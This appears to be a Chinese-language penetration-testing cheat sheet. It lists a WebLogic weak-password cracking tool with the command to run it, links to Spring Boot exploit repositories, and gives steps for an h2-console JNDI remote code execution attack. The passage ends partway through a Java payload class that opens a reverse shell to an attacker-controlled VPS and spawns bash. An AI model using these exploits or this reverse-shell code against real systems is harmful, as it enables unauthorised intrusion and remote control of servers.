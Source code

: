 **weblogic-WeakPwd弱口令**

常见弱口令集合：https://cirt.net/passwords?criteria=weblogic

exp地址：https://github.com/rabbitmask/WeblogicWeakPwd

修改ip.txt,内容如10.30.1.10

```
python weblogicweakpwd.py
```

* [Weblogic常规渗透测试](https://github.com/vulhub/vulhub/tree/master/weblogic/weak\_password)

#### Springboot

* https://github.com/LandGrey/SpringBootVulExploit
* https://github.com/0x727/SpringBootExploit

**实战文章**

* 记一次渗透一波三折找到的springboot利用:http://yiyekuzhou.xyz/2021/08/23/%E8%AE%B0%E4%B8%80%E6%AC%A1springboot%E6%A1%86%E6%9E%B6%E7%9A%84%E5%88%A9%E7%94%A8/

**测试漏洞**

**h2-database-console-JNDI-RCE**

https://github.com/LandGrey/SpringBootVulExploit#0x07h2-database-console-jndi-rce

步骤一: 直接访问目标开启 h2 console 的默认路由 /h2-console，目标会跳转到页面 /h2-console/login.jsp?jsessionid=xxxxxx，记录下实际的 jsessionid=xxxxxx 值。

步骤二: 准备要执行的 Java 代码(需要修改vps和端口)

编写优化过后的用来反弹 shell 的 Java 示例代码 JNDIObject.java，

https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/JNDIObject.java

```java
/**
 *  javac -source 1.5 -target 1.5 JNDIObject.java
 *
 *  Build By LandGrey
 * */

import java.io.File;
import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;

public class JNDIObject {
    static {
        try{
            String ip = "your-vps-ip";
            String port = "443";
            String py_path = null;
            String[] cmd;
            if (!System.getProperty("os.name").toLowerCase().contains("windows")) {
                String[] py_envs = new String[]{"/bin/python", "/bin/python3", "/usr/bin/python", "/usr/bin/python3", "/usr/local/bin/python", "/usr/local/bin/python3"};
                for(int i = 0; i < py_envs.length; ++i) {
                    String py = py_envs[i];
                    if ((new File(py)).exists()) {
                        py_path = py;
                        break;
                    }
                }
                if (py_path != null) {
                    if ((new File("/bin/bash")).exists()) {
                        cmd = new String[]{py_path, "-c", "import pty;pty.spawn(\"/bin/bash\")"};
```